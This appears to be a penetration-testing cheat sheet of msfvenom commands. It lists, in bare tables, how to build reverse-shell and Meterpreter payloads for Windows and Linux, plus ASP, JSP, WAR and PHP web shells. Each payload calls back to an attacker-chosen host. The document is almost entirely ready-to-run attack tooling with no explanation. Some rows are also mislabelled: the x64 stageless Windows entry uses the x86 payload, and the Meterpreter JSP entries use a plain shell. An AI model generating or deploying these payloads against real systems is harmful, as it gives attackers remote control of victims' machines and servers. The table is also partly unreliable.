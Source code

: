 ## Non-Meterpreter Binaries

Staged Payloads for Windows

|   |   |
|---|---|
|x86|`msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`|
|x64|`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe`|

Stageless Payloads for Windows

|   |   |
|---|---|
|x86|`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`|
|x64|`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe`|

Staged Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

Stageless Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

---

## Non-Meterpreter Web Payloads

|   |   |
|---|---|
|asp|`msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`|
|jsp|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp`|
|war|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war`|
|php|`msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php`|

---

## Meterpreter Binaries

Staged Payloads for Windows

|   |   |
|---|---|
|x86|`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`|
|x64|`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe`|

Stageless Payloads for Windows

|   |   |
|---|---|
|x86|`msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`|
|x64|`msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe`|

Staged Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

Stageless Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

---

## Meterpreter Web Payloads

|   |   |
|---|---|
|asp|`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`|
|jsp|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp`|
|war|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war`|
|php|`msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php`|
